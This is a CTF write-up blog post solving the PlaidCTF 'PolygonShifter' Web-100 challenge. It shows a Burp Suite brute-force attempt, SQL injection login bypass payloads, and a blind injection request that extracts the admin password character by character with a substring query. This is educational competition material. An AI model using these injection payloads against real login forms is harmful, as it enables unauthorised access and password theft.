 ```yaml
---
id: 1877
title: 'PlaidCTF writeup for Web-100 (blind sql injection)'
date: '2014-04-16T00:43:29-05:00'
author: 'Ron Bowes'
layout: revision
guid: 'https://blog.skullsecurity.org/2014/1873-revision-v1'
permalink: '/?p=1877'
---
```


Hey folks,

I know in my last blog I promised to do a couple exploit ones instead of doing boring Web stuff. But, this level was really easy and I still wanted to do a writeup, so you're just going to have to wait a little while longer for my 'kappa' writeup!

This 100-point Web challenge, called PolygonShifter, basically added some anti-bot defenses to a Web site by obfuscating the username/password field names, as well as the action for the POST request. When you visited the page, you'd see something like this:

```

<span class="htmlTag"><</span><span class="htmlTagName">form</span><span class="htmlTag"> </span><span class="htmlArg">action</span><span class="htmlTag">=</span><span class="Constant">"/S1tl90gme2GJ67epbZz9"</span><span class="htmlTag"> </span><span class="htmlArg">method</span><span class="htmlTag">=</span><span class="Constant">"POST"</span><span class="htmlTag">></span>
    <span class="htmlTag"><</span><span class="htmlTagName">label</span><span class="htmlTag"> </span><span class="htmlArg">for</span><span class="htmlTag">=</span><span class="Constant">""</span><span class="htmlTag"> </span><span class="htmlArg">style</span><span class="htmlTag">=</span><span class="Constant">"text-align:left;"</span><span class="htmlTag">></span>Username<span class="htmlEndTag"></</span><span class="htmlTagName">label</span><span class="htmlEndTag">></span>
    <span class="htmlTag"><</span><span class="htmlTagName">input</span><span class="htmlTag"> </span><span class="htmlArg">type</span><span class="htmlTag">=</span><span class="Constant">"text"</span><span class="htmlTag"> </span><span class="htmlArg">id</span><span class="htmlTag">=</span><span class="Constant">"lK1TFqrcp3fvIRSg8V7T"</span><span class="htmlTag"> </span><span class="htmlArg">name</span><span class="htmlTag">=</span><span class="Constant">"L1UIVbxzFD8wUUo8SaJH"</span><span class="htmlTag">></span>
    <span class="htmlTag"><</span><span class="htmlTagName">label</span><span class="htmlTag"> </span><span class="htmlArg">for</span><span class="htmlTag">=</span><span class="Constant">"LkW7Ye9ItPb8CGeKZrMU"</span><span class="htmlTag"> </span><span class="htmlArg">style</span><span class="htmlTag">=</span><span class="Constant">"text-align:left;"</span><span class="htmlTag">></span>Password<span class="htmlEndTag"></</span><span class="htmlTagName">label</span><span class="htmlEndTag">></span>
    <span class="htmlTag"><</span><span class="htmlTagName">input</span><span class="htmlTag"> </span><span class="htmlArg">type</span><span class="htmlTag">=</span><span class="Constant">"password"</span><span class="htmlTag"> </span><span class="htmlArg">id</span><span class="htmlTag">=</span><span class="Constant">"LkW7Ye9ItPb8CGeKZrMU"</span><span class="htmlTag"> </span><span class="htmlArg">name</span><span class="htmlTag">=</span><span class="Constant">"LmmURBa3S5NRYBwzHXhC"</span><span class="htmlTag">></span>
    <span class="htmlTag"><</span><span class="htmlTagName">input</span><span class="htmlTag"> </span><span class="htmlArg">class</span><span class="htmlTag">=</span><span class="Constant">"primary large"</span><span class="htmlTag"> </span><span class="htmlArg">type</span><span class="htmlTag">=</span><span class="Constant">"submit"</span><span class="htmlTag"> </span><span class="htmlArg">value</span><span class="htmlTag">=</span><span class="Constant">"Login"</span><span class="htmlTag">></span>
<span class="htmlEndTag"></</span><span class="htmlTagName">form</span><span class="htmlEndTag">></span>
```

I immediately installed the 'httparty' gem and started writing a solution in ruby, when I had an inspiration. I tried using the same action multiple times, and it worked! It would only work for a few minutes before I had to refresh and get a new one. But, that was enough!

I decided—incorrectly—that this was likely a brute-force level, so I fired up Burp Suite, chose 'Intruder' mode, and set it to something like:

```

<span class="Identifier">POST /im6Kh1pOKr7Y9bbDHiew HTTP/1.0</span>
<span class="Identifier">Host</span><span class="Normal">:</span><span class="Constant"> 54.204.80.192</span>
<span class="Identifier">User-Agent</span><span class="Normal">:</span><span class="Constant"> Mozilla/5.0 (X11; Linux x86_64; rv</span><span class="Normal">:</span><span class="Constant">17</span>.0) Gecko/20100101 Firefox/17.0
<span class="Identifier">Accept</span><span class="Normal">:</span><span class="Constant"> text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8</span>
<span class="Identifier">Accept-Language</span><span class="Normal">:</span><span class="Constant"> en-US,en;q=0.5</span>
<span class="Identifier">Accept-Encoding</span><span class="Normal">:</span><span class="Constant"> gzip, deflate</span>
<span class="Identifier">DNT</span><span class="Normal">:</span><span class="Constant"> 1</span>
<span class="Identifier">Proxy-Connection</span><span class="Normal">:</span><span class="Constant"> keep-alive</span>
<span class="Identifier">Referer</span><span class="Normal">:</span><span class="Constant"> http</span><span class="Normal">:</span>//54.204.80.192/example
<span class="Identifier">Cookie</span><span class="Normal">:</span><span class="Constant"> resolution=1920; session=.eJxdzc0OwTAAAOBXkZ4dSkJC4kDaSYSOTruuF2nXonSz2GR-4t2JC_YAX74HUGnlTvlm66w3YPgALQ2GQMWwG3V31xQP5unByDCeOYr3hRTpCDzboFBlWZ_OpsFoRpSZBlLGsI4wqw3yjvEAccz-mfuapEMEQZNQI3-LkS8iQW5RzvtruPiYS2nPucpso7JHWoXBqrPwFGvEe5r7jN2JVIj9s5_KwCpZ-TEMp2RP2ZXqO1laQZ0Wyds8Xxv7V7E.Bix5uQ.vhQP7hI43dgozvUAVyBF7MM6C9E</span>
<span class="Identifier">Content-Type</span><span class="Normal">:</span><span class="Constant"> application/x-www-form-urlencoded</span>
<span class="Identifier">Content-Length</span><span class="Normal">:</span><span class="Constant"> 56</span>

<span class="Identifier">zDm8T52TDl5ymYfS3Yh5=admin&FcZtaYem0HE0t9bQQCTE=§password§</span>
```

Then I used Burp Suite's built-in list of passwords to attack the account.

I let the attack run through the ~1000 or so passwords, then added a filter for 'Hello, ' (in order to find good attempts). There weren't any. Damnit, now I need a new plan!

...then, on a random inspiration, I tried an invert search for 'Wrong password'. And there was one entry: a password containing a single quote returned "An error occurred" instead of "Wrong password". \*facepalm\*, it's sql injection!

So, I tried logging in with:

- Username :: admin
- Password :: ' or 1=1--

And immediately, I'm logged in... as 'test'. Derp!

So I changed my credentials to:

- Username :: admin
- Password :: ' or username='admin'--

(Don't forget to put a space after the '--' if you're following along!)

And boom! I'm logged in as 'admin'! Finished, right? WRONG! The banner says: "Hello, admin!! My password is the flag!"

Now, it sounds like I need to recover admin's password. CHALLENGE. ACCEPTED.

I threw together a quick Burp Suite Intruder attack that looked like:

```

<span class="Identifier">POST /im6Kh1pOKr7Y9bbDHiew HTTP/1.0</span>
<span class="Identifier">Host</span><span class="Normal">:</span><span class="Constant"> 54.204.80.192</span>
<span class="Identifier">User-Agent</span><span class="Normal">:</span><span class="Constant"> Mozilla/5.0 (X11; Linux x86_64; rv</span><span class="Normal">:</span><span class="Constant">17</span>.0) Gecko/20100101 Firefox/17.0
<span class="Identifier">Accept</span><span class="Normal">:</span><span class="Constant"> text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8</span>
<span class="Identifier">Accept-Language</span><span class="Normal">:</span><span class="Constant"> en-US,en;q=0.5</span>
<span class="Identifier">Accept-Encoding</span><span class="Normal">:</span><span class="Constant"> gzip, deflate</span>
<span class="Identifier">DNT</span><span class="Normal">:</span><span class="Constant"> 1</span>
<span class="Identifier">Proxy-Connection</span><span class="Normal">:</span><span class="Constant"> keep-alive</span>
<span class="Identifier">Referer</span><span class="Normal">:</span><span class="Constant"> http</span><span class="Normal">:</span>//54.204.80.192/example
<span class="Identifier">Cookie</span><span class="Normal">:</span><span class="Constant"> resolution=1920; session=.eJxdzc0OwTAAAOBXkZ4dSkJC4kDaSYSOTruuF2nXonSz2GR-4t2JC_YAX74HUGnlTvlm66w3YPgALQ2GQMWwG3V31xQP5unByDCeOYr3hRTpCDzboFBlWZ_OpsFoRpSZBlLGsI4wqw3yjvEAccz-mfuapEMEQZNQI3-LkS8iQW5RzvtruPiYS2nPucpso7JHWoXBqrPwFGvEe5r7jN2JVIj9s5_KwCpZ-TEMp2RP2ZXqO1laQZ0Wyds8Xxv7V7E.Bix5uQ.vhQP7hI43dgozvUAVyBF7MM6C9E</span>
<span class="Identifier">Content-Type</span><span class="Normal">:</span><span class="Constant"> application/x-www-form-urlencoded</span>
<span class="Identifier">Content-Length</span><span class="Normal">:</span><span class="Constant"> 53</span>

<span class="Identifier">zDm8T52TDl5ymYfS3Yh5=admin&FcZtaYem0HE0t9bQQCTE=%27+or+%28username%3D%27admin%27+and+binary+substring%28password%2C+§1§%2C+1%29+%3D+%27§a§%27%29--+</span>
```

To clean it up, it's basically:

- Username :: admin
- Password :: ' or (username='admin' and binary substring(password, $1, 1) = '$2')

(Where $1 and $2 are Burp Suite's marked fields)

Then I set Burp Suite to use a 'Cluster Bomb' style of attack, which means that each field has its own set of values that are tried. Then I set the two variables to:

- $1 :: numeric, 1 - 45 (I had to keep expanding this since the password was 30+ characters long!)
- $2 :: custom set, a-z A-Z 0-9 + symbols

Then I let it run, filtered for 'Hello', and got the following results:

![](https://blogdata.skullsecurity.org/polygonshifter-solution.png)

Boom! Arrange those properly and you have your password. :)
